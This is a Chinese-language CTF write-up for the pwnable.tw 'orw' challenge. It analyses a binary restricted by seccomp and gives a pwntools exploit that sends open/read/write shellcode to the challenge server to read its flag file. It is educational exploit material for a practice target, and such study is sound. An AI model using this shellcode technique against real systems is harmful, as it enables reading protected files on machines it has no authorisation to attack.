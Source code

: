 ```yaml
---
title: 和媳妇一起学Pwn 之 orw
date: 2019-09-01 00:00:00
categories:
- CTF/Pwn
tags: shellcode syscall seccomp pwnable.tw
---
```


题目地址：[https://pwnable.tw/challenge/#2](https://pwnable.tw/challenge/#2)


> Only open read write syscall are allowed to use.

## 检查保护

```bash
➜  file orw 
orw: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.32, BuildID[sha1]=e60ecccd9d01c8217387e8b77e9261a1f36b5030, not stripped
➜  checksec orw
[*] '/Users/wangyuxuan/Desktop/pwnable/orw/orw'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

是一个32位的elf，动态链接，没有去符号表，除了栈不可执行没有开启其他保护，而且有读写可执行段。用IDA看一下主函数：


```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  orw_seccomp();
  printf("Give my your shellcode:");
  read(0, &shellcode, 0xC8u);
  ((void (*)(void))shellcode)();
  return 0;
}
```

发现shellcode是一个函数指针，对应的地址在bss段中，写完shellcode就可以直接执行了，但是根据题目的提示，shellcode中如果使用系统调用只能用open，write，read三个系统调用，那这个是怎么限制的呢？

## seccomp沙箱

猜测跟orw_seccomp函数有关，点进去如下：

```c
unsigned int orw_seccomp()
{
  __int16 v1; // [esp+4h] [ebp-84h]
  char *v2; // [esp+8h] [ebp-80h]
  char v3; // [esp+Ch] [ebp-7Ch]
  unsigned int v4; // [esp+6Ch] [ebp-1Ch]

  v4 = __readgsdword(0x14u);
  qmemcpy(&v3, &unk_8048640, 0x60u);
  v1 = 12;
  v2 = &v3;
  prctl(38, 1, 0, 0, 0);
  prctl(22, 2, &v1);
  return __readgsdword(0x14u) ^ v4;
}
```

看到prctl这个函数，应该全名是process control(进程控制)，猜测可能跟这个有关，参考链接：

- [Linux沙箱之seccomp](https://blog.betamao.me/2019/01/23/Linux%E6%B2%99%E7%AE%B1%E4%B9%8Bseccomp/)
- [seccomp学习笔记](https://veritas501.space/2018/05/05/seccomp%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/)

总之就是通过这种方法限制了程序可以使用的系统调用

## 利用

### 本地c代码尝试

因为对系统调用啥的还不是很熟悉，一开始的直觉是，为啥还有用read系统调用。感觉open打开后直接write到标准输出不就完了么。所以先尝试着在本地写一个c程序，只用open，write，read三个系统调用去读一个本地的文件（/flag）。系统调用参数是啥，需要用到什么头文件可以去man手册中查找：

```c
# include <stdio.h>
# include <unistd.h>
# include <fcntl.h>

int main(){
	int fd;
	char a[100];
	fd = open("/flag",0);
	read(fd,a,50);
	write(1,a,50);
	return 0;
}
```
写完就知道刚才那个疑问的答案了，通过open打开的是一个文件描述符，文件内容还在磁盘中。而write输出到标准输出需要从内存中输出，不能直接对两个文件描述符进行操作（标准输出和flag的文件描述符），所以要先把flag读到内存中，然后在从内存中输出。

### exp

这里利用栈上存放了flag位置的字符串，然后随便找了bss段后面作为存储flag的内存位置：

```python
from pwn import *
context(arch='i386',os='linux',log_level='debug')
myelf = ELF("./orw")
#io = process(myelf.path)
io  = remote("chall.pwnable.tw",10001)
shellcode = ""
shellcode += shellcraft.i386.pushstr('/home/orw/flag').rstrip()
shellcode += shellcraft.i386.linux.syscall('SYS_open',"esp", 0).rstrip()
shellcode += shellcraft.i386.linux.syscall('SYS_read',"eax", 0x0804A0D7,40).rstrip()
shellcode += shellcraft.i386.linux.syscall('SYS_write',1, 0x0804A0D7,40).rstrip()
#print shellcode
#print len(asm(shellcode))
io.recv()
io.send(asm(shellcode))
io.interactive()
```

## 疑问

在IDA中看到bss段明明是不可执行的：

```bash
.bss:0804A040 ; Segment type: Uninitialized
.bss:0804A040 ; Segment permissions: Read/Write
.bss:0804A040 ; Segment alignment '32byte' can not be represented in assembly
```

而如果通过gdb调试则发现：

```bash

gdb-peda$ vmmap
Start      End        Perm	Name
......
0x0804a000 0x0804b000 rwxp	/mnt/hgfs/桌面/pwnable/orw/orw
......

```

暂时还不知道为啥